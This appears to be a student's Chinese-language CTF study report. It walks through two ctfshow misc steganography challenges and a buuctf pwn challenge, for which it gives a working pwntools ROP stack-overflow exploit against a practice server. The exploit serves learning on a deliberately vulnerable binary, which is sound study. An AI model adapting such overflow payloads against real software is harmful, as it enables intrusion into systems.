 # 翟一鸣学习报告04

misc的知识忘了好多，爲了出题去补了一些，做了一些题目，pwn和汇编的有关的就只是看看教程，题没怎么做

## ctfshow misc40

（基本上跟着wp做的）

压缩包中有三个文件未加密

![2021020220353747](./2021020220353747.png)

txt文件内容如下

![20210202203611609](./20210202203611609.png)

意思应该就是将这串二进制一步一步转换爲十进制，结果如下

![20210202203937153](./20210202203937153.png)

图片放到010打开得到

![2021020220520091](./2021020220520091.png)

是brainfuck，解密出来是一段核心价值观编码，再次解密

![20210202210033865](./20210202210033865.png)

mp3使用MP3Stego解密

![20210202211028670](./20210202211028670.png)

得到svega.mp3.txt，打开得到hint

![20210202211053755](./20210202211053755.png)

压缩包密码abc123，解压得svega.wav

根据提示静默之眼，就是使用SilentEye解密，Sound quality为high，type为AES128，Key为202013
点decode得到flag

![20210202212308583](./20210202212308583.png)

## ctfshow misc30

zipcenop可以解开zip伪加密，或者在010中改

zipcenop使用如下

```
┌──(root💀kali)-[~/tools/misc]
└─# java -jar zipcenop.jar r aihe.zip 
```

解压得aihe.mp3，foremos可以分离出一张图片

![2021020221393464](./2021020221393464.png)

明显宽度不对，查看图片属性，看到高度为371，宽度为895，分别将其由10进制转为16进制：0173、037f

![20210202214237426](./20210202214237426.png)

在010中将高度数值调高

![2021020221471373](./2021020221471373.png)

可以得到猪圈密码，解密后即可得到flag

![20210202214810285](./20210202214810285.png)

## buuctf picoctf_2018_rop chain

32位动态链接，NX打开

![image-20220409191303908](./image-20220409191303908.png)

mian函数如下

![image-20220409191532291](./image-20220409191532291.png)

vuln函数里有栈溢出

![image-20220409191535331](./image-20220409191535331.png)

将flag读入到了参数s里面，满足条件`win1&&win2 &&a1==-59039827`的条件，就能读出flag

![image-20220409191539084](./image-20220409191539084.png)

发现win1已经被赋值1，可以不用管，

![image-20220409191541190](./image-20220409191541190.png)



win2赋值的函数如下

当满足win1 && a1 == -1163220307时，win2将被赋值1，这里win1已经满足了，所以只需要给win_function2传参时，将参数设置成-1163220307即可。

满足win1和win2后再返回来看flag函数，最后只需要满足a1 == -559039827即可输出flag。

a1是从flag函数的参数中获取的，是可控的。

![image-20220409191543194](./image-20220409191543194.png)

代碼如下

```python
from pwn import *

#start
io = remote("node4.buuoj.cn",26324)
# io = process("../buu/picoctf_2018_rop chain")
elf = ELF("../buu/PicoCTF_2018_rop_chain")


#params
flag_addr = elf.symbols['flag']
win1_addr = elf.symbols['win_function1']
win2_addr = elf.symbols['win_function2']
win2_a = 0x0BAAAAAAD
flag_a = 0x0DEADBAAD

#attack
payload = b'M'*(0x18+4) + p32(win1_addr) + p32(win2_addr) + p32(flag_addr) + p32(win2_a) + p32(flag_a)
io.sendlineafter("input> ",payload)

io.interactive()

```

